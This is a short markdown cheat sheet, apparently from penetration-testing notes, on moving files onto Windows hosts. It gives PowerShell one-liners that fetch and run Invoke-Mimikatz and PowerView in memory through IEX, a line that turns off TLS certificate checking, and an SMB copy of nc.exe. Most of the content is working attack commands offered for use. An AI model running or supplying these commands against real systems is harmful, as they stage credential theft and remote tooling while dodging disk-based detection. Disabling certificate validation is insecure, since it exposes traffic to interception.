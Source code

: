 # File Transfers
---

# Windows File Transfer
---
Basic file download:
```Powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

Fileless download and execution in memory:
```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

File download using iwr (can use iwr, curl or wget):
```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Bypassing this error:
```Powershell
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1```

add -UseBasicParsing like:
```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Bypassing this error:
```Powershell
Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
```

add this like:
```Powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

# SMB
---
Copy file from SMB server:
```cmd
copy \\192.168.220.133\share\nc.exe
```
